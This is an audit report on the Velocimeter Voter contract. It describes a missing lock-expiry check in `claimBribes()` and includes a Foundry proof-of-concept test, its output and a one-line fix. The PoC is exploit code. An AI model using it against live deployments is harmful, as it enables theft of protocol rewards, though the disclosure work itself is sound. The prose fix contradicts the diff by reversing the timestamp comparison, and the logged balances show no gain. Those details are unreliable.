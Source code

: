 Macho Pine Lemur

Medium

# Expired Locks Can Still be Used to Claim Rewards in the Voter Contract

## Summary

Expired locks can keep claiming rewards for any bribe.

## Vulnerability Detail

Expired locks can still be used to claim rewards, posing a significant risk of unclaimed yield theft. This vulnerability could result in substantial financial losses for the protocol. Normally, once a lock expires, it should no longer be valid for any operations, including claiming rewards. However, due to the absence of a proper check on the lock expiration within the `claimBribes()` function, users can exploit this loophole to continue receiving rewards even after their lock has expired. This unauthorized access to funds can pose significant financial issues for the protocol.

To address this problem, it is crucial to implement a fix that ensures the `claimBribes()` function in the Voter smart contract includes a check verifying that the current `block.timestamp` is greater than the lock's expiration date when claiming bribes. By incorporating this validation, we can prevent expired locks from being used to claim rewards, thereby protecting the protocol from potential financial harm and ensuring the integrity of the reward distribution system.

## Impact

Theft of unclaimed rewards

## Code Snippet

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Voter.sol#L542-L547

## Proof of Concept

Consider adding this test to `VeloVotingTest.t.sol`: (one can definitely set this scenario in other test contracts)

```Solidity
    function createThirdPartyBribe(address _bribeAddress, address _token, uint256 _amount) public {
        deal(_token, address(this), _amount);

        IERC20(_token).approve(_bribeAddress, _amount);

        if (!voter.isWhitelisted(_token)) {
            vm.prank(address(owner));
            voter.whitelist(_token);
        }

        ExternalBribe(_bribeAddress).notifyRewardAmount(_token, _amount);
    }

    function newEpoch() public view returns (uint256) {
        uint WEEK = 86400 * 7;
        return minter.active_period() + (2 * WEEK) + 1 seconds;
    }

    function testClaimingBribesWithExpiredLock() public {

        address holder = vm.addr(10);
        deal(address(flowDaiPair), holder, 10 ether);
        uint256 nextEpoch = 2 weeks + 1 seconds;

        vm.startPrank(holder);
        flowDaiPair.approve(address(escrow), TOKEN_1);
        uint256 tokenId1 = escrow.create_lock(TOKEN_1, nextEpoch);
        vm.stopPrank();
        
        address bribeAddress = voter.external_bribes(address(newGauge));
        createThirdPartyBribe(bribeAddress, address(flowDaiPair), TOKEN_100K);
        address[] memory pools = new address[](1);
        pools[0] = address(flowDaiPair);
        uint256[] memory weights = new uint256[](1);
        weights[0] = 10000;
        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = address(flowDaiPair);

        // Step 1- Holder votes
        vm.prank(holder);
        voter.vote(tokenId1, pools, weights);

        console2.log("------------------------------------------------------------------------");
        console2.log("Pair balance of holder before voting", IERC20(address(flowDaiPair)).balanceOf(holder));

        // Step 2- Start second epoch
        vm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, address(flowDaiPair), TOKEN_100K);

        // Assert the time is passed the locked end of the token id = 1
        bool expired =  escrow.locked__end(tokenId1) < block.timestamp;
        assertEq(expired, true, "token should be expired");

        // Step 3- Holder claims
        vm.prank(holder);
        voter.claimBribes(bribes, tokens, tokenId1);
        
        // Step 4- Start third epoch
        vm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, address(flowDaiPair), TOKEN_100K);

        // Step 5- Holder claims
        vm.prank(holder);
        voter.claimBribes(bribes, tokens, tokenId1);

        console2.log("------------------------------------------------------------------------");
        console2.log("Pair balance of holder after voting", IERC20(address(flowDaiPair)).balanceOf(holder));
        
    }
```

Output:

```Markdown
Running 1 test for test/VeloVoting.t.sol:VeloVotingTest
[PASS] testClaimingBribesWithExpiredLock() (gas: 1989456)
Logs:
  ------------------------------------------------------------------------
  Pair balance of holder before voting 9000000000000000000
  ------------------------------------------------------------------------
  Pair balance of holder after voting 9000000000000000000

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 20.74ms

```

## Tool used

Manual Review

## Recommendation

Consider fixing the function `claimBribes()` by checking that `block.timestamp` is larger than the lock's expiration date when claiming bribes:

```diff
    function claimBribes(address[] memory _bribes, address[][] memory _tokens, uint _tokenId) external {
        require(IVotingEscrow(_ve).isApprovedOrOwner(msg.sender, _tokenId));
+       require(IVotingEscrow(_ve).locked__end(_tokenId) > block.timestamp, "token lock end expired");
        for (uint i = 0; i < _bribes.length; i++) {
            IBribe(_bribes[i]).getRewardForOwner(_tokenId, _tokens[i]);
        }
    }
```